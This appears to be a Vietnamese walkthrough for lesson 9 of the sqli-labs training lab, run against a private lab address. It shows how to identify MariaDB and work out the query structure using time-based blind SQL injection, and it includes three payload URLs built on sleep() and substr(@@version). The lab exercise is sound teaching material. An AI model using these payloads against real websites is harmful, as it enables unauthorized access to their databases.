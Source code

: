 # Những việc làm được với lesson-9
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-9 

![](../images/lesson9/screen_8.png)

1. Nhập giá trị id 

![](../images/lesson9/screen.png)

![](../images/lesson9/screen_1.png)

![](../images/lesson9/screen_2.png)

Ở bài này khác với bài 8 ta chỉ nhập id là có thể được pass qua. Và ta vẫn chưa thể biết được cấu trúc của nó. Sau khi xác định được máy sử dụng MariaDB bằng lệnh nmap như các bài trước ta đã làm. Thì ta dựa vào đó để đoán phiên bản và đoán được ra cấu trúc câu lệnh. MariaDB có 5.x và 10.x nên ta dựa vào đó để đoán ra cấu trúc của bài này 

```
192.168.80.225/sqli-labs/Less-9/?id=1" and if(substr((select @@version),1,1)='5',sleep(5),false) --+
```

![](../images/lesson9/screen_3.png)

```
192.168.80.225/sqli-labs/Less-9/?id=1" and if(substr((select @@version),1,1)='10',sleep(5),false) --+
```

![](../images/lesson9/screen_4.png)

cứ như vậy với các ký tự đặc biệt ta sẽ có cấu trúc 
```
192.168.80.225/sqli-labs/Less-9/?id=1' and if(substr((select @@version),1,1)='5',sleep(5),false) --+
```

![](../images/lesson9/screen_5.png)

Sau khi biết được cấu trúc của nó ta có thể làm tương tự được các bài 7 và 8 như trước của ta đã làm. Để có thể show được giá trị của nó ra 
